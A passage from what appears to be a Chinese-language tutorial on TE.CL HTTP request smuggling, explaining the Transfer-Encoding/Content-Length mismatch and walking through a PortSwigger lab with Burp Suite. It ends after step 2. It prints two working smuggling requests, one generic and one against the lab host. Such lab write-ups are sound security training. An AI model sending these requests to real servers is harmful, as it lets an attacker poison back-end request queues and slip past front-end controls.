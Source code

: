 ### TE.CL vulnerabilities

在此类场景下，前端服务器使用Transfer-Encoding头，后端服务器使用Content-Length头，我们可以执行简单的HTTP请求走私攻击，如下所示：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

前端服务器处理Transfer-Encoding头，因此将邮件正文视为使用分块编码，它处理第一个块，据说它有8个字节长，直到走私的下一行的开始，它处理第二个块，该块被声明为零长度，因此被视为终止请求，这个请求被转发到后端服务器，后端服务器处理Content-Length标头并确定请求正文的长度为3个字节，直到第8行的开头，接下来的字节，从走私开始没有被处理，后端服务器将把这些视为序列中下一个请求的开始  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)  
解题过程：  
Step 1：访问以上链接进入到靶场，随后点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-0fbfb65368038a2bf677a63bcdeeeb75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154143-8a6035f8-aa0b-1.png)  
Step 2：修改从burpsuite中捕获到的数据报文，构造如下的请求走私请求(这里推荐打击使用新版本的Burpsuite，主要是可以可视化换行，其次需要注意的一个点是最后的那个0的后面也得\\r\\n，再者是需要移除栏目Repeater中的UnUpdate Content-Length)

```plain
POST / HTTP/1.1
Host: 0a96003604f8aabe8031df2300fe009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
